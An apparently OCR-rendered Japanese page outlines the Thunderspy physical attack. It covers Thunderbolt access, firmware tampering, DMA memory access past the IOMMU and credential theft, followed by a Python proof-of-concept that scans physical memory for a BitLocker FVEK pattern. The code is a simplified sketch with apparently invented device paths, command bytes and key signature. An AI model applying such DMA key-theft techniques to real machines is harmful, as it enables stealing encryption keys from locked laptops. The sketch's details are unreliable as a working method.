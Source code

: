 ### 攻撃シナリオ

#### Thunderspy の攻撃手順

1. **物理アクセス**: ロックされたラップトップに Thunderbolt ポート経由で接続
2. **Security Level の改竄**: SPI Flash Controller Firmware を書き換え
3. **DMA 経由でメモリアクセス**: IOMMU を迂回して System RAM を読み書き
4. **認証情報の窃取**: BitLocker キー、ログインパスワードハッシュなどを取得

#### PoC コード

```python
# thunderspy_dma.py - DMA 経由でメモリをスキャン
import struct
import time

class ThunderboltDMA:
    def __init__(self, pci_device="/dev/thunderbolt0"):
        self.device = pci_device
        self.fd = None

    def open(self):
        """Thunderbolt DMA チャネルを開く"""
        # 実際の実装は Thunderbolt プロトコルに依存
        self.fd = open(self.device, 'r+b')

    def read_memory(self, physical_address, size):
        """物理メモリから読み取り"""
        # DMA Read コマンドを送信
        cmd = struct.pack('<BIQ',
                          0x01,  # READ_MEM コマンド
                          size,
                          physical_address)
        self.fd.write(cmd)

        # データを受信
        return self.fd.read(size)

    def write_memory(self, physical_address, data):
        """物理メモリに書き込み"""
        cmd = struct.pack('<BIQ',
                          0x02,  # WRITE_MEM コマンド
                          len(data),
                          physical_address)
        self.fd.write(cmd + data)

    def scan_for_bitlocker_key(self):
        """メモリ内の BitLocker FVEK を検索"""
        # BitLocker FVEK は特定のパターンで識別可能
        fvek_pattern = b'\x2c\x00\x00\x00\x01\x00\x00\x00'

        # 低位メモリをスキャン（0-4GB）
        for addr in range(0, 0x100000000, 0x1000):  # 4KB ずつ
            try:
                data = self.read_memory(addr, 0x1000)
                if fvek_pattern in data:
                    offset = data.find(fvek_pattern)
                    fvek = data[offset:offset+64]
                    print(f"[+] Potential BitLocker FVEK at 0x{addr+offset:x}")
                    print(f"    {fvek.hex()}")
            except:
                pass

        return None
```